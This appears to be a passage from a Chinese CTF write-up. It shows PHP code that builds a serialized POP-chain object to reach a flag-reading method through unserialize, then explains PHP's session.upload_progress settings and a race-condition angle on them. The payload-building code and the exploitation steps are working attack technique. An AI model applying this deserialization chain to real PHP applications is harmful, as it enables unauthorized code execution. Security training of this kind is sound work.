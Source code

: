 ```
}
$first = new bb();
$second = new aa();
$third = new cc();
$four = new ee();
$first->mod1 = $second;
$third->mod1 = $four;
$f = new dd();
$f->flag = 'Get_flag';
$f->b = 'call_user_func';
$four->str1 = $f;
$four->str2 = "getflag";
$second->mod2['test2'] = $third;
//var_dump($first);
echo serialize($first);
```

目的是触发get_flag方法

```
bb->__destruct()`===>`aa->__call()`===>`cc->__invoke()`===>`ee->__toString()`===>`dd->getflag()
```

pop链可以用反向分析的方法得到。

触发session反序列化得到Soap对象爬取到的flag,然后输出

发送给se.php即可得到flag

[![mark](https://blogjpg.yanmy.top/blog/20200418/gMTEYpm95l3I.png?imageslim)](https://blogjpg.yanmy.top/blog/20200418/gMTEYpm95l3I.png?imageslim)

## 学习一下session.upload_progress

php>5.4时,php.ini有如下默认配置

```
session.upload_progress.enabled = on
session.upload_progress.cleanup = on
session.upload_progress.prefix = "upload_progress_"
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
session.upload_progress.freq = "1%"
session.upload_progress.min_freq = "1"
```

- `enabled=on`表示upload_progress功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；
- `cleanup=on`表示当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要；
  - `cleanup=on`时考虑条件竞争进行利用
- `name`当它出现在表单中，php将会报告上传进度，最大的好处是，它的值可控；
- `prefix+name`将表示为session中的键名

## Reference

